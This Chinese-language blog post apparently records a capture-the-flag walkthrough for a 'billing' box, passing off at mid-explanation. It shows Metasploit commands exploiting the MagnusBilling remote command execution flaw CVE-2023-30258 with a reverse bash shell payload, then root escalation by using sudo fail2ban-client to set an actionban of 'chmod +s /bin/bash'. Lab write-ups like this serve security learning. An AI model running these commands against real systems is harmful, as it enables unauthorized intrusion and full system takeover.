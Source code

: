 ```yaml
---
icon: pen-to-square
date: 2025-03-26
tags: 
title: billing
category:
  - 项目
---
```

## 1. 前言
本题运用了简单的[CVE-2023-30258](https://eldstal.se/advisories/230327-magnusbilling.html)漏洞，这是一个简单的远程命令执行漏洞
## 2. 复现步骤
### 反弹shell
这个漏洞已经在msf中收录了
`msfconsole`

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110410.png)

```bash
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
```
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110506.png)

```bash
show targets
```

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110536.png)

```bash
set PAYLOAD cmd/unix/reverse_bash
```
设置payload，然后设置Rhost Rport Lhost以及Lport
设置好监听接口以及payload之后，msf会自动接收反向shell
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326112352.png)

### 提权
查看当前进程
```
ps -aux | grep fail
```

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326112734.png)

**fail2ban-client** 是一个命令行界面，它允许我们与 **fail2ban-server** 进行交互、配置和控制。简单说明一下，**fail2ban** 是一种安全工具，可以监控日志文件中的可疑活动（例如重复失败的登录尝试），并通过更新防火墙规则来禁止违规的 IP 地址。
使用 fail2ban-client，您可以与 Fail2ban 服务交互以执行作，例如启动或停止 jail、查看或更新设置以及检查服务器上不同 jail 的状态。从本质上讲，它可以帮助您控制服务器如何响应可疑活动以确保其安全。[Fail2Ban – Linux 权限提升 - Juggernaut-sec](https://juggernaut-sec.com/fail2ban-lpe/#What_is_Fail2Ban)

#### 提权原理
如果我们发现 Fail2ban 正在目标主机上运行，则必须满足以下条件才能提升权限：

1. 配置文件（**iptables-multiport.conf** 或 **iptables.conf** – 取决于版本）需要以某种方式可写。通常，这是用户/组权限、目录/文件权限或两者的某种组合的结果。
2. 无论如何，我们的当前用户需要能够重新启动服务，才能使对配置文件所做的更改生效。


`/etc/fail2ban/jail.local`，有这样的参数

|     |                                                                                                                                                                                                                    |
| --- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
|     | `[asterisk-iptables]`<br>enabled  = true<br>filter   = asterisk<br>action   = iptables-allports`[name=ASTERISK, port=all, protocol=all]`<br>logpath  = /var/log/asterisk/messages<br>maxretry = 5<br>bantime = 600 |
|     |                                                                                                                                                                                                                    |

```
sudo /usr/bin/fail2ban-client status
```
查看当前的防火墙规则
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326113233.png)
有 8 个活动的 jail
`Jails`基本上是定义要监控的日志、要查找的模式以及匹配模式时要采取的作的配置。

关键命令
```bash
sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
```
这段命令会启动`fail2ban-client`设置`asterisk-iptables`规则的`action`项，